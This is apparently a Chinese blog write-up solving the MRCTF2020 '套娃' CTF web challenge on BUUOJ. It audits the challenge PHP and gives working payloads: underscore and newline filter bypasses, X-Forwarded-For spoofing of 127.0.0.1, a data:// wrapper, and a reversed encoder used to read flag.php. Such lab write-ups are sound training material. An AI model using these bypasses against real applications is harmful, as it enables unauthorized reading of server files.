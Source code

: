 ```yaml
---
title: MRCTF2020套娃
date: 2024-05-26 19:29:16
tags: 题解
categories: 刷题笔记
---
```


## [MRCTF2020]套娃

我们打开页面源码，出现提示信息

<!-- more -->

```
<!--
//1st
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
!-->
```

开始进行代码审计

$_SERVER['QUERY_STRING']   作用为获取字符串的内容



```
 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 )
```

substr_count()函数计算子串在字符串中出现的次数
子串区分大小写，意思是$query中不能出现_和%5f（\_）



```
if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t']))
```

意思为传入一个参数b_u_p_t且不等于23333但正则要匹配到23333（正则匹配中’^‘和’$'代表的是行的开头和结尾,所以能利用换行绕过），我们可以使用%0a绕过正则匹配

我们要先绕过第一个if语句

由于上述代码不能出现’_‘和’%5f’，可以用‘ ’或‘.’或‘ %5F’绕过

```
payload
?b u p t=23333%0a

```

![image-20240526195902450](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405261959734.png)

成功绕过，现在页面提示flag就在这里，我们需要怎么得到它

我们查看页面源码，有一串好长好长的注释

![image-20240526200016188](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405262000261.png)

经过查询资料可知，这是**jsfuck代码**

我们打开控制台，输入这串代码

![image-20240526200125829](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405262001095.png)

页面弹出需要post一个Merak，我们随便给他一个值，得到源码

![image-20240526200217721](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405262002870.png)

```
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?> 
```

然后又是代码审计

```
if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 
```

需要post一个Merak才能显示代码

```
function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
```

对传入的v进行base64解码，再进行加密处理

```
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
```

ip地址需为127.0.0.1才能绕过if语句，同时需往2333中读取一个todat is a happy day

所以这里修改

```
X-Forwarded-For:127.0.0.1
?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=
```

开始解题

这题最关键的一步是使change($_GET['file'])变为flag.php

我们进行逆向，先反向给v的每一个字符的ascill进行减法，在进行base64加密，这样得到值再通过原本的change后为flag.php

```
<?php
function change($v){
$re = '';
for($i=0;$i<strlen($v);$i++){
$re .= chr ( ord ($v[$i]) - $i*2 );
}
return base64_encode($re);
}
$a=change("flag.php");

echo $a;

ZmpdYSZmXGI=
```

由于存在post参数Merak，会使文件die，所以我们要先关闭post传参，再输入payload

```
http://388dfe15-03fe-4c9e-b855-642e04bdcccc.node5.buuoj.cn:81/secrettw.php?file=ZmpdYSZmXGI=&2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=
```

![image-20240526202042170](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405262020234.png)

flag在页面源码里
